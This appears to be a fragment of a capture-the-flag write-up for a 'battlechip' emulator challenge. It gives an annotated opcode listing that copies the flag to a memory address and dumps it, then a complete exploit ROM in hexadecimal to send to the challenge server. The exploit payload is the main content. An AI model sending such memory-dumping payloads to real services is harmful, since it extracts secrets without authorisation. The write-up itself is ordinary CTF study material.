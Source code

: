 ```llvm
0xAF 0x00
0x00 0x01

; Flag should be copied at address I+10. Dump it!
0xAF 0x0A
0x68 0x00
0x69 0x00
0xD8 0x9F

; Exit
0xFF 0xFF
```

Exploit ROM in hexadecimal :
`aea061016000f055f11e6000f055f11e6000f055f11e6000f055f11e6000f055f11e6000f055f11e6000f055f11e6000f055f11e6000f055f11e6000f055f11e6200aea0f21e60fff055630000e1aea00000650866fff5158633f007af80f05568006900d89f4006127073013300124caf00f21e8030f055aea0f21e6000f0557201320a1242af000001af146800690ad89f`

Send it to the server and enjoy the show!

![](battlechip-4.gif)

